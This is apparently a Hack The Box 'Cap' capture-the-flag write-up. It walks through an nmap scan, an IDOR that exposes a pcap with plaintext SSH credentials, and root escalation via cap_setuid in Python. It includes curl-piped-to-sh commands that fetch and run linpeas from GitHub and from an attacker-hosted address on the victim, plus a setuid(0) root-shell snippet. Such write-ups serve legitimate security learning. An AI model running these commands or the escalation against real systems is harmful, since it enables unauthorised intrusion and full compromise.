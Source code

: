 # Cap Write-up

<img src="https://labs.hackthebox.com/storage/avatars/70ea3357a2d090af11a0953ec8717e90.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.10.245`

    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp open  http    gunicorn
    |_http-title: Security Dashboard
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 404 NOT FOUND
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:14 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 232
    |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    |     <title>404 Not Found</title>
    |     <h1>Not Found</h1>
    |     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
    |   GetRequest: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:05 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 19386
    |     <!DOCTYPE html>
    |     <html class="no-js" lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <meta http-equiv="x-ua-compatible" content="ie=edge">
    |     <title>Security Dashboard</title>
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
    |     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    |     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
    |     <link rel="stylesheet" href="/static/css/themify-icons.css">
    |     <link rel="stylesheet" href="/static/css/metisMenu.css">
    |     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
    |     <link rel="stylesheet" href="/static/css/slicknav.min.css">
    |     <!-- amchar
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:06 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Allow: OPTIONS, HEAD, GET
    |     Content-Length: 0
    |   RTSPRequest: 
    |     HTTP/1.1 400 Bad Request
    |     Connection: close
    |     Content-Type: text/html
    |     Content-Length: 196
    |     <html>
    |     <head>
    |     <title>Bad Request</title>
    |     </head>
    |     <body>
    |     <h1><p>Bad Request</p></h1>
    |     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
    |     </body>
    |_    </html>
    |_http-server-header: gunicorn
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port80-TCP:V=7.94SVN%I=7%D=12/3%Time=674EECE9%P=x86_64-pc-linux-gnu%r(G
    SF:etRequest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
    SF:x20Tue,\x2003\x20Dec\x202024\x2011:35:05\x20GMT\r\nConnection:\x20close
    SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
    SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
    SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
    SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
    SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
    SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
    SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
    SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
    SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
    SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
    SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
    SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
    SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
    SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
    SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
    SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
    SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue,
    SF:\x2003\x20Dec\x202024\x2011:35:06\x20GMT\r\nConnection:\x20close\r\nCon
    SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20HEAD
    SF:,\x20GET\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
    SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
    SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
    SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
    SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
    SF:alid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;R
    SF:TSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
    SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
    SF:20Tue,\x2003\x20Dec\x202024\x2011:35:14\x20GMT\r\nConnection:\x20close\
    SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
    SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
    SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
    SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
    SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
    SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

### WEB 

![image](https://github.com/user-attachments/assets/ad734ab8-84dc-47ab-95aa-957270f3dd59)

IP config

![image](https://github.com/user-attachments/assets/f92207a3-25e2-4916-9916-64f7a61cc292)

Network Status

Security Snapshot

![image](https://github.com/user-attachments/assets/e9e48544-a992-4873-ab77-2ff74b04ffeb)

## Exploitation 

### IDOR

http://10.10.10.245/data/0

![image](https://github.com/user-attachments/assets/3a7f9411-16db-4c4d-8934-b43ee62cb419)

0.pcap

![image](https://github.com/user-attachments/assets/54407fd9-171b-410c-93ba-183c870c7876)

Credentials for FTP and SSH.

`nathan`:`Buck3tH4TF0RM3!`

### SSH

Connect to SSH via `nathan` credetials!

    ssh nathan@10.10.10.245

Get the user flag!

![image](https://github.com/user-attachments/assets/6dc06f66-6358-4971-9cf8-d16cfc49df59)

### Privelege Escalation 

[LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/309566)

You can run linpeas from github

    curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

Or get it localy and run it. 

    # on host
    wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

    python3 -m http.server 80

    # on victim

    curl -l http://your-address/linpeas.sh | sh

![image](https://github.com/user-attachments/assets/7f6cffe7-c8c8-4f44-b84a-e6701aa460f9)

Now we can see `cap_setuid` capabiliries, it allows to make arbitrary manipulations with UID process.

It means that `cap_setuid` allows to changing of the UID (user ID).

We can set the UID to 0. That means we can run our command as a root.

So, run the folowing commands in server's python to get a root permission.

    import os
    os.setuid(0)
    os.system("/bin/bash")

![image](https://github.com/user-attachments/assets/358bf82f-c230-4527-8cd4-1a560104a1b5)

Get the root flag!

![image](https://github.com/user-attachments/assets/776e3744-fc39-43ab-8039-0642018e9647)
